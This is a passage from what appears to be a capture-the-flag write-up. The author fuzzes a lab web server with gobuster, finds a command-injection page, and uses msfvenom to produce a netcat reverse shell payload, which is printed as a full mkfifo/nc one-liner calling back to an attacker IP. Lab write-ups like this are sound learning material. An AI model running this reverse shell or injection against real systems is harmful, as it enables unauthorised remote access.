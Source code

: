In the meantime, I moved on to the web server.

A gobuster scan revealed two pages, ```wish``` and ```genie```.

```
$ sudo gobuster fuzz -u http://192.168.159.168:7331/FUZZ -w seclists/Discovery/Web-Content/raft-large-words.txt -b 404,403,400 -k --exclude-length 0
[sudo] password for meowmycks: 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.159.168:7331/FUZZ
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                seclists/Discovery/Web-Content/raft-large-words.txt
[+] Excluded Status codes:   400,403,404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 23:40:39 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=385] http://192.168.159.168:7331/wish
Found: [Status=200] [Length=1676] http://192.168.159.168:7331/genie
                                                                   
===============================================================
2022/09/30 23:43:12 Finished
===============================================================
```

Going to ```wish``` revealed what looked like a page to perform command injection.

![image](https://user-images.githubusercontent.com/45502375/196001043-89195a13-cded-4642-a220-58b5c622b347.png)

To verify this, I typed ```whoami``` and hit Submit.

This brought me to the ```genie``` page and I saw the words ```www-data```, confirming my prediction.

![image](https://user-images.githubusercontent.com/45502375/196001138-936f70ee-71a9-416c-a4f8-d4f2873ffdd3.png)

## Step 4 - Exploitation Part 2

Using msfvenom, I generated a netcat reverse shell payload and tried to submit it.

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=192.168.159.128 lport=4444 R 
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 97 bytes
mkfifo /tmp/ymljs; nc 192.168.159.128 4444 0</tmp/ymljs | /bin/sh >/tmp/ymljs 2>&1; rm /tmp/ymljs
```
